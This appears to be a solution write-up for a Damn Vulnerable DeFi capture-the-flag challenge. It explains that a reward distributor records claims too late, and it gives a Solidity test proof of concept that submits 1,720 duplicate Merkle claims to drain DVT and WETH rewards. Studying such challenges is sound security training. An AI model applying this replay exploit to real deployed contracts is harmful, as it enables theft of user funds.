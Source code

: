 Solution:

- `claims` isn't updated immediately, that is, `_setClaimed()` is called only the last claim with the same type of token
- Nor does merkle proof contain the info about usage (i.e., whether this leaf has been claimed and used)
- We can simply re-claim rewards by construct `Claim[] memory inputClaims` whose element are all the same

PoC:
```solidity
function test_theRewarder() public checkSolvedByPlayer {
        
    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    (uint256 player_dvt_index, uint256 player_dvt_amount) = _findBeneficiaryIndex("/test/the-rewarder/dvt-distribution.json");
    (uint256 player_weth_index, uint256 player_weth_amount) = _findBeneficiaryIndex("/test/the-rewarder/weth-distribution.json");

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    Claim[] memory claims = new Claim[](1720);

    // 853 iterations for WETH
    for (uint i = 0; i < 853; i++) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_weth_amount,
            tokenIndex: 1, // WETH is the second token in the array
            proof: merkle.getProof(wethLeaves, player_weth_index)
        });
    }

    // 867 iterations for DVT
    for (uint i = 853; i < 1720; i++) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_dvt_amount,
            tokenIndex: 0, // DVT is the first token in the array
            proof: merkle.getProof(dvtLeaves, player_dvt_index)
        });
    }

    distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}

function _findBeneficiaryIndex(
    string memory path
) private view returns (uint256 index, uint256 amount) {
    Reward[] memory rewards =
        abi.decode(vm.parseJson(vm.readFile(string.concat(vm.projectRoot(), path))), (Reward[]));

    for (uint256 i = 0; i < rewards.length; i++) {
        if (rewards[i].beneficiary == address(player)) {
            return (i, rewards[i].amount);    
        }
    }
}
```
